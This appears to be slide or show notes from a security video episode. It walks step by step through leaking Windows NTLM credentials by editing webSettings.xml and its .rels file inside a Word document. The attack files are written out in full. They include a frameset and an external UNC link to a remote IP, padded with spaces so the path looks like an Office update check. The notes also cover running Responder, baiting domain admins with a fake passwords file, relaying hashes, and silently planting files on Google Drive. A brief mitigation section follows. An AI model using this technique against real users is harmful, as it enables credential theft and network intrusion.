



Leaking Windows Creds Externally Via MS Office - Tradecraft Security Weekly #21

# History
- Red Team against Mimecast Advanced Security
- DDE and Macros were being detected
- External links in email were being detected
- Using company name/Employee impersonation was being detected
# Framesets...like it's 1997!
- HTML 4.0 introduced frames and framesets
- Microsoft Word as an HTML editor? Sure why not.
- Combine these w/ 20yr old hash leaking bug...
# NTLM v1/v2 via Remote UNC
- Likely all Windows versions affected
- Likely all MS Office versions
- Use Responder or Inveigh to setup rogue SMB server
- Embed UNC path to remote host and embed in DOCX
- Share DOCX w/ domain admin or plant fake 'Passwords.docx'
# DEMO
1. Create new Microsoft Word Passwords_Secured.docx and save.
2. Open in 7zip or archive manager and drag the webSettings.xml file onto desktop. Open webSettings.xml in text editor of choice 
3. 
4. and add the following frameset code to the bottom:
```
<w:Frameset>
	<w:framesetSplitbar>
		<w:w w:val="60"/>
		<w:color w:val="auto"/>
		<w:noBorder/>
	</w:framesetSplitbar>
	<w:frameset>
		<w:frame>
			<w:name w:val="1"/>
			<w:sourceFileName r:id="rId1"/>
			<w:linkedToFile/>
		</w:frame>
	</w:frameset>
</w:frameset><w:optimizeForBrowser/><w:allowPNG/></w:webSettings>
```

5. Save this
6. Create a webSettings.xml.rels file in text editor and save it
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships
	xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
	<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/frame" Target="\\165.227.203.35\ to check for Microsoft Office Updates                                      .docx" TargetMode="External"/>
</Relationships>
```


7. Drag your new webSettings.xml file to the archive and save it there overwritting the old.
8. Open the rels folder and copy the new webSettings.xml.rels file there too.
9. run responder on remote attack server 
# Additional ideas...
- Exchange Web Services (EWS) SOAP calls for relaying NTLM hashes
- Embed multiple frames for hashes and remote DDE at the same time
- Silently plant DOCX w/GSuite users on Google Drive and don't notify them
- Other Microsoft Office files
# For the Blue Team
- NTLM blocking & auditing *WARNING*
- Disable NTLM protocols via Group Policy

